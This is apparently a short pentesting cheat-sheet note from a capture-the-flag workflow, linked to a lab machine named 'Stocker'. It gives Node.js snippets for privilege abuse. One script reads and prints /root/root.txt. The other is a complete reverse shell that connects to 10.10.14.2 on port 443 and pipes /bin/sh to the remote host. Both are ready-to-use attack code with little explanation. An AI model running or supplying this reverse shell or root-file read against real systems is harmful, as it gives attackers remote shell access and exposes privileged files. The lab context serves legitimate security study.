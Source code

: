 ### Read a file
Create a file test.js with content:
```bash
const fs = require('fs');

fs.readFile('/root/root.txt', 'utf-8', (err, data) =>{
        if (err) throw err;
        console.log(data);
});
```
To execute it we can use:
```bash
/usr/bin/node test.js
```
Examples:
[[Stocker#^d64ec2]]
### Reverse Shell
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Examples:
[[Stocker#^2cf0f4]]